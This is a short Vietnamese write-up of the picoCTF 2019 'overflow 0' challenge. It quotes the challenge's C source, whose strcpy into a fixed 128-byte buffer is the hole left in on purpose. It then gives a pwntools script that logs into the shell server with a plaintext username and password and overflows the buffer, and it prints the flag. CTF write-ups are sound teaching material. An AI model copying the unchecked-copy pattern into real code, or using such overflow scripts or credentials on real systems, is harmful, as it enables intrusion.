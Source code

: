 **Đây là đề bài trên pico 2019**

```sh
This should be easy. Overflow the correct buffer in this program and get a flag. Its also found in /problems/overflow-0_0_6d0c88d7d40bc281760b515cb6a4660a on the shell server. Source.
```

**Source bài**
```sh
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("You entered: %s", argv[1]);
  }
  else
    printf("Please enter an argument next time\n");
  return 0;
}

```
Bài này cũng khá đơn giản, ta chỉ cần truyền tham số với độ dài lớn hơn độ dài của biến buffer 

Đây là file exploit của mình:
```sh
from pwn import *
s = ssh(host = '2019shell1.picoctf.com', user = 'hazir', password = '2k4')
r = s.run("cd /problems/overflow-0_0_6d0c88d7d40bc281760b515cb6a4660a; ./vuln aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa")
r.interactive()
r.close()
```
Và chạy file bằng lệnh `python solve.py` thì BOOM....

`picoCTF{3asY_P3a5y0a131490}`
